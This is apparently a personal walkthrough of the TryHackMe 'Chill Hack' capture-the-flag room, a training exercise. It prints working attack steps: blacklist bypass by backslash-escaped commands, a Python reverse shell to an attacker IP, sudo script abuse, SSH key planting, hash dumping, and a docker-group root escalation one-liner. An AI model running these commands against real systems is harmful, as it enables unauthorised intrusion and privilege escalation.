# Chill Hack CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Chill Hack** CTF challenge on [TryHackMe](https://tryhackme.com/room/chillhack). 
---

scan



found ftp server with anonymous login



got note.txt



```
Anurodh told me that there is some filtering on strings being put in the command -- Apaar
```

found a lot of hidden folders with feroxbuster



`/secret` stands out from rest

we have some command execution, testing with id command (we are `www-data`)



after inputing `$ cat /etc/passwd` or `$ cd / ; ls` we are asked if we are hackers?  we know from that there is filtering on strings being put in commands



i tried few different techniques, `l\s` worked so ls is probably filtered, we also can use cd without filtering, `c\at index.php` also worked (I used BurpSuite)

we need to use `c\at index.php` to see source code

now we know exactly what commands are on blacklist: 

```php
$blacklist  = array('nc','python','bash','php','perl','rm','cat','head','tail','python3','more','less','sh','ls');
```

using `l\s /home` we know about users: `anurodh apaar aurick`



I also checked apaar home /folder with `l\s -la /home/apaar`



i tried diffrent reverse shells and this one worked for me (we have to change python3 to `p\ython3` because python3 is on blacklist) 

```
p\ython3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.14.91.59",4445));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
now we have shell as `www-data`



I ran linpeas to check for PE vector, we see that we can run `.helpline.sh` as apaar without password, this command sholud execute the script, then we need to specify a person (here we can input anything) and then we can input `/bin/bash` to spawn a shell as apaar



```
sudo -u apaar /home/apaar/.helpline.sh
```
we got user flag



i generated ssh key to make logging easier as apaar

```
$ ssh-keygen -t rsa -b 4096 -f ~/.ssh/id_rsa -N ""
$ cat ~/.ssh/id_rsa.pub >> ~/.ssh/authorized_keys
```

i started looking around, decided to look into web page files to check if i missed something

in `/var/www/files` there is index.php file containing info about mysql login



used `mysql -u root -p` to log with provided password then

```
$ SHOW databases;
$ USE webportal;
$ SHOW tables;
$ SELECT * FROM users;
```


used crackstation to crack hashes



now i was stuck

i found info that i should use steganography

so i downloaded image `hacker-with-laptop[...].jpg` and used steghide without password

```
$ steghide extract -sf hacker-with-laptop_23-2147985341.jpg
```

we got `backup.zip` but its password protected i tried to use one from cracked hashes but didnt work so decided to crack with john



we got another password in file `cource_code.php` but first we need to decode from base64 `IWQwbnRLbjB3bVlwQHNzdzByZA==`



```
echo "IWQwbnRLbjB3bVlwQHNzdzByZA==" | base64 -d
```


finally we got access as anurodh



i used linpeas once again and found that user anurodh is in docker group (95% PE factor) so i checked GTFObins, we can use this one-liner to gain root access





```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

we gained root access and root flag



## MACHINE PWNED


